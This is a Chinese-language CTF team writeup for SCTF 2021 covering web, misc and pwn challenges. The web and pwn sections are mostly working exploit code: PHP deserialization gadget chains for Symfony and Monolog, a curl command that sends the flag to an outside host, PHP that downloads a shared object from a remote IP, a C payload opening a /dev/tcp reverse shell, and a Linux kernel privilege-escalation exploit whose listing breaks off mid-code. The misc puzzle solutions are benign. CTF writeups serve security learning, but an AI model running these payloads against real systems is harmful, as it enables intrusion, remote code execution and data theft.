本次2021 SCTF 我们 SU 取得了2nd 🥈的成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)
以下是我们 SU 本次 2021 SCTF的 writeup 

<!--more-->


# Web

### FUMO_on_the_Christmas_tree

通过给定的一个 gadget class 文件来进行 PHP 反序列化 RCE。观察后发现只有一个类有 destructor，然后所有和系统互动的函数只有 readfile，所以这应该就是入口和出口。剩下的只需要找到一个调用路径从入口到出口。

所有的类都只有一个函数和一些成员变量。函数内部做的操作大概分为两类：

- 对输入用函数做一些变换
- 调用其它类的成员函数

我们先看所有对输入做变换的函数。其中有

1. `crypt`、`sha1`、`md5`
2. `base64_encode`
3. `str_rot13`、`strrev`、`ucfirst`、`base64_decode`

第一类是不可逆的，必须避免遇到；第二类是可逆的，但必须满足条件，只有在 `base64_encode` 后再出现一个 `base64_decode` 才行，并且两者中间的操作必须最终保证数据一致；第三类是完全可逆的。要注意的是，有的里面还会出现直接的赋值语句，比如 `$xxx = $yyy`。如果是 `$xxx = $xxx`（自己赋给自己）的类型则可以，否则的话则需要避免遇到（因为右侧的变量不存在）。

接下来，对于所有的类我们需要建立一个调用关系。类里函数调用的方式有几种：

```PHP
// 第一种

public function viqSfkeZ91($DUkiWcRS) {

    if (is_callable([$this->pHnfXT0TP, 'T81ZgYZlGt']))

        @$this->pHnfXT0TP->T81ZgYZlGt($DUkiWcRS);

}

// 第二种

public function __invoke($value) {

    $key = base64_decode('QThTQjRHWm1WRw==');

    @$this->BUDQkw->zvHrWpSd($value[$key]);

}

// 第三种

public function __call($name,$value) {

    extract([$name => 'FTTh89A9u']);

    if (is_callable([$this->IwXv56wBHu, $KDKR9Egl7]))

        call_user_func([$this->IwXv56wBHu, $KDKR9Egl7], ...$value);

}

// 第四种

public function ttcoBkt($a06sSms0Pd) {

    call_user_func($this->Z9vliIEZ9u, ['upGnwrVnpV' => $a06sSms0Pd]);

}
```

- 第一种找哪个类有`T81ZgYZlGt`。
- 第二种找哪个类有`zvHrWpSd`。
- 第三种需要看`extract`里面的参数，找到哪个类有`FTTh89A9u`。处理的时候要注意第三种等价于第一种的写法：

```PHP
public function KDKR9Egl7($value) {

    if (is_callable([$this->IwXv56wBHu, 'FTTh89A9u']))

        @$this->IwXv56wBHu->FTTh89A9u($value);

}
```

- 第四种只能调用第二种，需要找哪个类的`__invoke`函数的`base64_decode`的参数是`upGnwrVnpV`的 Base64 编码字符串。

如果一个类可以通过某种方式（保证输入是上文所述可逆变化的条件下）带着输入调用另一个类，则可以从这个类到达另一个类。那接下来我们直接在上文建立好调用关系的情况下，在这些类上（看成一个图）从入口开始进行 DFS，中间记录经过的类、函数和对输入进行的变换。如果能够在满足上述条件的情况下到达出口，则成功找到一条调用路径。

剩下的就是用现成的 PHP 解析库解析所有的类，构建上述关系并且跑算法，最后得出一条路径，再手动构造序列化字符串和输入即可。

### Upload_it

```Python
import requests

import os

url = "http://124.71.199.229:8778/"

s = requests.Session()

s.get(url)

cookie = s.cookies.get("PHPSESSID")

def store(path,name,con):

    r = s.post(url,files={"file":(name,con),"path":(None,path)})

serSes = os.popen("php gadget.php").read()

store("../../../../tmp","sess_"+cookie,serSes)

print(s.post(url,files={"file":("pew","XXD")}).text)
<?php

namespace Symfony\Component\String;

class LazyString {

  function __construct() {

    $func = function(){system("cat /flag");};

    $this->value = new \Opis\Closure\SerializableClosure($func);

  }

}

include_once "vendor/autoload.php";

print("upload_path|".(serialize(new \Symfony\Component\String\LazyString())));
```

### Loginme

```
X-real-ip:127.0.0.1

age={{$}}

```

### Ezuros

```Python
import requests

import os

url = "http://124.70.204.21:7777/"
payload = os.popen("php gadget.php").read()

s = requests.Session()

s.get(url)

s.post(url+"config",json={'XXD|{}FF'.format(payload):'XXD'})

print(s.get(url+"config").text)
<?php

namespace Monolog\Handler

{

    class SyslogUdpHandler

    {

        protected $socket;

        function __construct($x)

        {

            $this->socket = $x;

        }

    }

    class BufferHandler

    {

        protected $handler;

        protected $bufferSize = -1;

        protected $buffer;

        protected $level = null;

        protected $initialized = true;

        protected $bufferLimit = -1;

        protected $processors;

        function __construct($methods, $command)

        {

            $this->processors = $methods;

            $this->buffer = [$command];

            $this->handler = clone $this;

        }

    }

}

namespace {

$cmd = '$(printf "curl https://thegrandpewd\\x2epythonanywhere\\x2ecom/`cat /etc/*/flag`")';

$obj = new \Monolog\Handler\SyslogUdpHandler(

        new \Monolog\Handler\BufferHandler(

            ['current', 'system'],

            [$cmd, 'level' => null]

        )

    );

echo serialize([$obj]);

}

?>
```


### Rceme

diff

```Apache
pcntl_fork, pcntl_waitpid, pcntl_wait, pcntl_signal, pcntl_signal_get_handler, pcntl_signal_dispatch, pcntl_wifexited, pcntl_wifstopped, pcntl_wifsignaled, pcntl_wexitstatus, pcntl_wtermsig, pcntl_wstopsig, pcntl_exec, pcntl_alarm, pcntl_get_last_error, pcntl_errno, pcntl_strerror, pcntl_getpriority, pcntl_setpriority, pcntl_sigprocmask, pcntl_sigwaitinfo, pcntl_sigtimedwait, pcntl_wifcontinued, pcntl_async_signals, pcntl_unshare, cli_set_process_title, cli_get_process_title, chroot, dl,

strlen, error_reporting, set_error_handler, create_function, preg_match, preg_replace phpinfo, strstr, escapeshellarg, getenv, putenv, call_user_func, unserialize, var_dump, highlight_file, show_source, ini_get , end, 
```

简单看一下，知道是无参数 rce 抄一下脚本，改一下

```PHP
def one(s):

    ss = ""

    for each in s:

        ss += "%" + str(hex(255 - ord(each)))[2:].upper()

    return f"[~{ss}][!%FF]("

def makeSTR(s):

    ss = ""

    for each in s:

        ss += "%" + str(hex(255 - ord(each)))[2:].upper()

    return f"[~{ss}][!%FF]"

"""

组成 system(next(getallheaders()));

a=whoami

"""

def make(xd):

    a = xd.strip(")")

    aa = a.split("(")

    s = ""

    for each in aa[:-1]:

        s += one(each)

    s += ")" * (len(aa) - 1)

    return s
```

然后看一下 php 文档，[https://www.php.net/manual/en/functions.arguments.php#:~:text=Example%20%2310%20Using%20...%20to%20provide%20arguments](https://www.php.net/manual/en/functions.arguments.php#:~:text=Example #10 Using ... to provide arguments) 知道可以用 `...[1,2]` 来传多个参数，可以用 `create_function` 来执行任意 php 代码，还可以序列化传数组，用反序列化函数弄出来就行了。

接下来就是 iconv bypass df 了，抄一下 bytectf final 的，用 filter 绕函数就行。问题比较大就是怎么写文件，调了半天，最后用 `SplFileObject` 

```PHP
import craft

import requests

def arb(s):

    return craft.makeSTR(s) + "." + craft.make("var_dump()")

url = "http://localhost:3333"

# payload = """a:2:{i:0;s:198:"){}$url = 'http://47.100.54.220/poc.so';$file = new SplFileObject($url, "r");$a = "";while(!$file->eof()) {$a = $a.$file->fgets();}$file=new SplFileObject('/tmp/payload.so','w');$file->fwrite($a);//";i:1;s:0:"";}"""

payload = """a:2:{i:0;s:208:"){}$url = 'http://47.100.54.220/gconv-modules';$file = new SplFileObject($url, "r");$a = "";while(!$file->eof()) {$a = $a.$file->fgets();}$file=new SplFileObject('/tmp/gconv-modules','w');$file->fwrite($a);//";i:1;s:0:"";}"""

code = craft.makeSTR('call_user_func') + '(' + craft.makeSTR("create_function")

code += "("

code += "..." + craft.makeSTR("unserialize") + "(" + arb(payload) + ")"

code += "));"

#code += craft.make("var_dump(end(getallheaders()))") + ";"

print(code)
<?php

$url = 'http://172.17.16.1/poc.so';

$file = new SplFileObject($url, "r");

$a = "";

while ( ! $file->eof()) {

    $a = $a.$file->fgets();

}

$file=new SplFileObject('/tmp/p.so','w');

$file->fwrite($a);
#include <stdio.h>

#include <stdlib.h>

void gconv() {}

void gconv_init() {

  puts("pwned");

  system("bash -c '/readflag>/dev/tcp/ip/port'");

  exit(0);

}
```

参考https://xz.aliyun.com/t/8669#toc-5

用原生类把so和modules上传到tmp然后用伪协议读一下触发：

```PHP
putenv("GCONV_PATH=/tmp/");show_source("php://filter/read=convert.iconv.payload.utf-8/resource=/tmp/payload.so");
```

### upload it 2

根据upload it 1 得知用sleep触发，还是一样用LazyString调一下sandbox的backdoor方法

```PHP
<?php

namespace Symfony\Component\String{

    class LazyString{

        private $value;

        public function __construct($value){

            $this->value = $value;

        }

    }

}

namespace {

    class sandbox {

        private $evil;

        public function __construct(){

            $this->evil = "/flag";

        }

    }

    use Symfony\Component\String\LazyString;

    $value = [new sandbox,"backdoor"];

    $lazy = new LazyString($value);

    $part1 = urlencode('upload_path|s:45:"/tmp/sandbox/2b2f38818b2ac2cd6df0b9cd09e1ad88";|');

    echo $part1.urlencode(serialize($lazy));

}
%75%70%6c%6f%61%64%5f%70%61%74%68%7c%73%3a%34%35%3a%22%2f%74%6d%70%2f%73%61%6e%64%62%6f%78%2f%32%62%32%66%33%38%38%31%38%62%32%61%63%32%63%64%36%64%66%30%62%39%63%64%30%39%65%31%61%64%38%38%22%3b%7c%4f%3a%33%35%3a%22%53%79%6d%66%6f%6e%79%5c%43%6f%6d%70%6f%6e%65%6e%74%5c%53%74%72%69%6e%67%5c%4c%61%7a%79%53%74%72%69%6e%67%22%3a%31%3a%7b%73%3a%34%32%3a%22%00%53%79%6d%66%6f%6e%79%5c%43%6f%6d%70%6f%6e%65%6e%74%5c%53%74%72%69%6e%67%5c%4c%61%7a%79%53%74%72%69%6e%67%00%76%61%6c%75%65%22%3b%61%3a%32%3a%7b%69%3a%30%3b%4f%3a%37%3a%22%73%61%6e%64%62%6f%78%22%3a%32%3a%7b%73%3a%31%33%3a%22%00%73%61%6e%64%62%6f%78%00%65%76%69%6c%22%3b%73%3a%35%3a%22%2f%66%6c%61%67%22%3b%73%3a%31%31%3a%22%75%70%6c%6f%61%64%5f%70%61%74%68%22%3b%4e%3b%7d%69%3a%31%3b%73%3a%38%3a%22%62%61%63%6b%64%6f%6f%72%22%3b%7d%7d
```

贴burp上decode一下post到tmp目录覆盖session

### GoFTP

根据题目描述和 hint 信息可以大概猜到预期通过 FTP 来做 SSRF（PASV 模式传文件时，客户端会建立一个新的连接到服务端指定端口）。具体的 HTTP 请求内容在比赛的时候是通过结合逆向和动态调试的方式，触发 binary /api/register 接口本地监听获得的。在通过 SSRF 注册 username 为 admin 的用户之后，可正常登录通过访问 /admin 获得 flag。

```CoffeeScript
#!/usr/bin/env python3

from pwn import *

import time

context.log_level = 'debug'

l = listen(2121)

_ = l.wait_for_connection()

data = listen(9000)

l.sendline(b'220 Test FTP Server')

l.recvuntil(b'USER ')

l.sendline(b'331 Password required')

l.recvuntil(b'PASS')

l.sendline(b'230 User logged in')

l.recvuntil(b'TYPE')

l.sendline(b'200 Switching to Binary mode')

l.recvuntil(b'PASV')

time.sleep(5)

l.sendline(b'227 Entering Passive Mode (127,0,0,1,35,40)')

l.recvuntil(b'STOR')

l.sendline(b'150 Opening BINARY mode data connection for foo.txt')

#_ = data.wait_for_connection()

#data.recvall()

l.sendline(b'226 Transfer complete')

l.recvuntil(b'QUIT')

l.close()

```
```

PUT /api/user HTTP/1.1

Host: 127.0.0.1:9000

User-Agent: GRequests/0.10

Content-Length: 71

Content-Type: application/json

Accept-Encoding: gzip

{"email": "admin@foo.org", "username": "admin", "password": "ahDi3aid"}
```

# Misc

### This_is_A_tree

> 一颗圣诞树，还有好多礼物,flag需要SCTF{}噢 ,a beautiful tree,U need to know some Chinese traditional knowledge,flag need a “SCTF{your_flag}”

遍历bata+base64+中文转二进制转ascii

中序遍历后的字符串为：Q2hpbmVzZSB0cmFkaXRpb25hbCBjdWx0dXJlIGlzIGJyb2FkIGFuZCBwcm9mb3VuZCEgU28gSSBXYW50IEdpdmUgWW91IE15IEZsYWcgQnV0IFlvdSBOZWVkIERlY29kZSBJdC5FbmpveSBUaGUgRmxhZyEhOuW4iCDlhZEg5aSNIOaNnyDlt70g6ZyHIOaZiyDlp6Qg5aSn6L+HIOiuvCDlmazll5Eg6ZyHIOaBkiDoioIg6LGrIA==

base64后：

Chinese traditional culture is broad and profound! So I Want Give You My Flag But You Need Decode It.Enjoy The Flag!!:师 兑 复 损 巽 震 晋 姤 大过 讼 噬嗑 震 恒 节 豫

https://github.com/BjdsecCA/BJDCTF2020_January参考里面的伏羲六十四卦

然后中文转二进制：

010000110110100000110001011011100100000101011111011110010111100101100100011100110010000100

二进制转出ascii

Ch1nA_yyds!


### fumo_xor_cli 

>  nc 124.70.150.39 2333

>  nc 123.60.107.154 2333

>  FUMOFUMO FUMO FUMOFUMO?(flag中没有数字) 



Fumo 中间夹着两段彩色的文字，其中一部分包含一个链接

https://mp.weixin.qq.com/s/E_iDJBkVEC4jZanzvqnWCA

里面有张图

https://imgtu.com/i/TpMSkq 




按照题目名称的意思，提取这里面的每个像素点，和 cli 里面的那个进行异或

图片中一行100个 总共 13300 个色块



Shell 里拿 pwntools 接收 提取出来有 6650 个字符，正好2倍



图里这个顺序正好和shell里第二段五颜六色的字符颜色顺序一样，异或之后发现前6650位几乎完全一致，后面不一样

后面那一半和 cli 前面那部分彩色的颜色（aaaaa....）来异或

Exp:

```Python
# MiaoTony

# from pwn import *

# host = '124.70.150.39'

# port = 2333

# r = remote(host, port)

# s = r.recvall()

# print(s[:100])

# print(s[-100:])

# with open('data', 'wb') as f:

#     f.write(s)

import re

from PIL import Image

img = Image.open('TpMSkq.png')

# img.show()

img.size

# (900, 1200)

# 纵向来提取

data = []

for i in range(1, img.size[0], 9):

    for j in range(1, img.size[1]-9, 9):

        r, g, b, a = img.getpixel((i, j))

        print(r, g, b, a)

        data.append((r, g, b))

# print(data)

print(len(data))

# 13300

with open('colors2', 'w', encoding='utf-8') as f:

    f.write(str(data))

with open('data2.txt', 'rb') as f:

    s = f.read()

with open('data1.txt', 'rb') as f:

    s += f.read()

# print(s)

# s[:100]

l = re.findall(b'\x1b\[38;2;(\d+);(\d+);(\d+)m', s)

# print(l)

colors = [tuple(int(i) for i in j) for j in l]

print(len(colors))

# 6650

data_new = []

for i in range(len(colors)):

    x = ()

    for j in range(3):

        tmp = data[i][j] ^ colors[i][j]

        x += (tmp,)

    print(x)

    data_new.append(x)

with open('data_xor.txt', 'w') as f:

    f.write(str(data_new))

img1 = Image.new('RGB', (133, 100), (255, 255, 255))

img1.putdata(data_new)

img1.save('out.png')

img1.show()
```


翻转旋转一下得到 flag

SCTF{Good_FuMo_CTF_OvO}

### in_the_vaporwaves 

> something in the vaporwaves(题目flag格式为 SCTF(.*) 请自行加上花括号为 SCTF{.*} 提交)

> 附件链接：https://pan.baidu.com/s/1W9RISgb8O7WxX_P09IiEpA

> 提取码：sctf



修改频谱大一点  mose解密



### easydsp

题目附件包含 4 个数据文件，每个数据文件为 126000 个浮点数。参考题目描述，将数据文件按照音频文件理解，转换为 wav （适当压缩幅度），可以听到四段音乐混合不同类型的杂音。考虑到样本点幅度超过了 -1 ~ 1 的范围，猜测出题人可能将两段音频文件直接加在了一起，因此尝试了一下计算 data1 - data2 的结果，画图如下



可以从差值中看出采用了类似 BPSK 调制方式进行编码，周期为 1000 个采样点。完整的文件可以编码 126 bit 内容。126 不是 8 的倍数，是 7 的倍数，猜测有可能是使用 7bit 编码一个字符的方式。一些尝试后可还原出 flag 的内容。

```Python
data = []

for i in range(1, 5):

    data.append(np.array(list(map(float, open(f'data{i}.txt').read().strip().splitlines()))))

diff = data[0] - data[1]

def get_bit(x):

    return 1 if np.sum(x[200:300]) / 100 > 0 else 0

bits = [get_bit(diff[d:d + 1000]) for d in range(0, 126000, 1000)]

print(bits)

t = 0

flag = []

for i in range(0, len(bits)):

    t = (t << 1) + bits[i]

    if i % 7 == 6:

        flag.append(chr(t))

        t = 0

print(repr(''.join(flag)))
```

### easyiot

题目给了一个用户程序、一个加密后的文件和一个内核模块。用户程序把一个文本文件（device_tree.txt）逐字符 RSA 加密输出。由于加密方式是一一映射，可以通过加密后结果出现的频率与字符出现频率对照大大缩小爆破的空间，此处可通过爆破的方式得到 RSA 的参数 (n = 391, d = 305)，不过这个参数实际上在内核模块中也有，不需要爆破。。得到参数后解密 device_tree.txt 内容如下

> Congratulations on helping B find the device tree plug-in,Here are some tips, Embedded Engineer A, wants to send a message requesting a connection to the server using an IoT device Distribute up to once, and the server clears the session after it receives it, and the server kicks the device off after more than 2 minutes of idleness.This message appears on the screen of the IoT device (read as normal) Can you get the data that A enters into the IoT device? (Remember to put "sctf{}" on it)

逆向内核模块逻辑可得 user password 内容为 `chengdu106520013` （AES 解密），以及一个比较正常的 LED 显示输出的逻辑（可以从 https://github.com/Embedfire/embed_linux_tutorial/tree/master/base_code/linux_driver/ecSPI_OLED 找到修改前的源码）。

仅通过 device_tree.txt 的内容没有脑洞出来这些和 flag 的关系是怎样的。。。在看到 hint 给出的 message 之后，可以看到 MQTT 相关的信息，猜测可能是想把 MQTT 报文内容作为 flag 提交。在一番与出题人确认信息后（比如相比标准协议少掉一个字节是什么情况），又注意到 LED 输出的部分排序方式与正常不太一样，驱动中实现的是逐列输出，如果想“正常读出”的话需要做转置。多次尝试后终于拼出了正确的 flag。

```Python
from pwn import *

import binascii

context.endian = 'big'

client_id = b"21"

user = b'A'

password = b'chengdu106520013'

datalen = 10 + len(client_id) + 2 + len(user) + 2 + len(password) + 2 - 1

buf = b"\x10" + bytes([datalen, 4]) + b'MQTT' + b"\x04" + b"\xc2\x00\x50" + p16(len(client_id)) + client_id + p16(len(user)) + user + p16(len(password)) + password

pkt = binascii.hexlify(buf).upper().decode()

reorder = ''

for j in range(0, 12):

    for i in range(0, len(pkt), 12):

        reorder += pkt[i + j]

flag = 'sctf{' + reorder + '}'

print(flag)
```

# Pwn

### dataleak

CVE-2019-11834 直接泄露即可

```Python
from pwn import *

# sh = process('./cJSON_PWN')

sh= remote('124.70.202.226',2101)

# gdb.attach(sh,'b * $rebase(0x120d)')

payload = "/*".rjust(0xe,'b')

# payload = payload.ljust(0xe,'a')

sh.send(payload)

sh.send("aaaa/*".ljust(0xe,'a'))

payload = "b" * (0xb-6) +"/*"

payload = payload.ljust(0xe,'a')

sh.send(payload)

sh.send("/*".ljust(0xe,'a'))


sh.interactive()
```

### flyingkernel

This was the only kernel challenge for SCTF this year.

The vulnerable device driver was /dev/seven.

They were multiple vulnerabilities that when combined can lead to LPE.

You can allocate a chunk of size 0x80 using the command `0x5555` in ioctl.

Using the command `0x6666` you can get that chunk freed but not nulled (UAF).

The last ioclt command was `0x7777` we can use this to get format string attack and bypass KASLR.

And the most important thing is that SMAP is disabled, which means if we can get our leaks using

the format string attack and then get RIP, we can pivot our stack and just ROP ; commit_creds(prepare_kernel_cred(0)) and swapgs iretq.

So now we have UAF on a chunk with size 0x80, which means it will get the chunk from kmalloc-128

The problem is that there are not much structs we can target for this specific slab.

But good for use there is `struct subprocess_info` which can give RIP control.

```C%23
struct subprocess_info {

        struct work_struct work;

        struct completion *complete;

        const char *path;

        char **argv;

        char **envp;

        int wait;

        int retval;

        int (*init)(struct subprocess_info *info, struct cred *new);

        void (*cleanup)(struct subprocess_info *info);

        void *data;

} __randomize_layout;
```

if we can control `cleanup` we can control rip (but we have to be quick, this struct is allocated and it uses cleanup quickly).

You can allocate this struct just using this line of code : socket(22, AF_INET, 0); it’s okey if it fails and return -1 it will still be allocated.

So the plan is this:

- Take advantage of the format string vuln to get leaks (don’t use %p they are detected by the kernel as information leak and it will show up as ___ptr___ and not the actual value in my exploit I provided %lld) and now we have the kernel base.

- Free that chunk and execute that socket() to get advantage of the UAF and overwrite cleanup with a gadget, in my case it was

```Apache
0xffffffff816e19bc:        mov    esp,0x83000000

0xffffffff816e19c1:        ret
```

- I mentioned that we should be quick to overwrite that (so that our gadget gets executed and not the actual cleanup value). userfault_fd was not available to make the race reliable. What I did was I spawned a thread which write to /dev/seven in infinite loop, and hope for cleanup to be overwritten before use.

- mmap that region of memory and put our ROP there, elevate our privs and execute shell.

The complete exploit:

```C%2B%2B
#include <stdio.h>

#include <fcntl.h>

#include <assert.h>

#include <unistd.h>

#include <sys/syscall.h>

#include <sys/ioctl.h>

#include <string.h>

#include <sys/socket.h>

#include <pthread.h>

#include <stdlib.h>

#include <sys/mman.h>

int fd;

// We can launch ioctl / read / write for this device driver.

// For ioctl command we have:

// 0x6666 for UAF

// 0x7777 for Fmt string vuln

// 0x5555 alloc of size 0x80

#define ALLOC         0x5555

#define UAF                0x6666

#define GET                0x7777

struct trap_frame{

        char* rip;

        unsigned long cs;

        unsigned long rflags;

        char* rsp;

        unsigned long ss;

}__attribute__((packed));

struct trap_frame tf;

void save_state(void){

        asm volatile(   "mov tf+8, cs;"

                        "pushf;"

                        "pop tf+16;"

                        "mov tf+24, rsp;"

                        "mov tf+32, ss;"

                        );

}

void open_target(void)

{

        fd = open("/dev/seven", O_RDWR);

        assert(fd > 0);

}

int lock;

void *memset_buf(void *tmp)

{

        

        unsigned long buf[4];

        for(int i = 0; i < 4; i++){

                buf[i] = (unsigned long)tmp;

        }

        /*

        char buf[0x81];

        memset(buf, 'M', 0x80);

        */

        lock = 1;

        while(1)

        {

                write(fd, buf, 0x20);

        }

        return tmp;

}

void shell(void){

        char* argv[] = {"/bin/sh", NULL};

        execve(argv[0], argv, NULL);

}

void setup_chunk_rop(unsigned long kernel_base)

{

        unsigned long *rop;

        int i = (0x1000000/2)/8;

        unsigned long commit_creds = kernel_base + (0xffffffff8108c360 - 0xffffffff81000000);

        unsigned long prepare_kernel_cred = kernel_base + (0xffffffff8108c780 - 0xffffffff81000000);

        unsigned long pop_rdi = kernel_base + 0x16e9;

        unsigned long mov_rdi_rax = kernel_base + (0xffffffff813d7369 - 0xffffffff81000000);

        unsigned long mov_rdi_rax_rep = kernel_base + (0xffffffff81aed04b - 0xffffffff81000000);

        unsigned long pop_rcx = kernel_base + (0xffffffff8101ed83 - 0xffffffff81000000);

        unsigned long mov_cr3_rdi = kernel_base + (0xffffffff8105734a -0xffffffff81000000); //: mov cr3, rdi ; ret

        unsigned long or_rax_rdx = kernel_base + (0xffffffff81018d2c -0xffffffff81000000); //: or rax, rdx ; ret

        unsigned long pop_rdx = kernel_base + (0xffffffff8104abb7-0xffffffff81000000); // pop rdx; ret

        unsigned long pop_rax = kernel_base + (0xffffffff8100ec67-0xffffffff81000000); // pop rax; ret

        unsigned long mov_rax_cr3 = kernel_base + (0xffffffff81057fab-0xffffffff81000000); //: mov rax, cr3 ; mov cr3, rax ; ret

